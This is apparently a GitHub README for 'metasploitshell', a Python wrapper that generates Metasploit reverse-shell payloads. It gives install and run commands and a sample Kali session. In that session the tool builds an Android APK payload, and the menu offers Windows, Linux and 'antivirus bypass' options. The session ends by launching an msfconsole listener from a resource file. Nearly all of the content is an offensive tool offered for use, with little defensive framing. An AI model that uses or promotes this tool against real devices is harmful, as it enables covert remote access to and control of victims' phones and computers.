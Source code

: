 # metasploitshell
made by khilesh
# simple reverse shell gerneter tool

# commands
git clone https://github.com/khilesh114/metasploitshell
cd metasploitshell
sudo python3 msv.py

──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
└─$ python3 msv.py
metasploit fremwork
enter ip addres ex 127.0.0.1
enter port ex 8080

        windows          [1]
        linux            [2]
        android          [3]
        antivirus bypass [4]
        exit tool        [5]
enter a number :-3

 
                   .___             .__    .___
_____    ____    __| _/______  ____ |__| __| _/
\__  \  /    \  / __ |\_  __ \/  _ \|  |/ __ | 
 / __ \|   |  \/ /_/ | |  | \(  <_> )  / /_/ | 
(____  /___|  /\____ | |__|   \____/|__\____ | 
     \/     \/      \/                      \/ 

Enter ip address :-127.0.0.1
Enter a port nomber  :-8080
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10231 bytes
Saved as: android.apk
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.3.42-dev                          ]
+ -- --=[ 2375 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing android.txt for ERB directives.
msf6 > exit
                                                                                                                          
┌──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
└─$ msfconsole -r android.txt



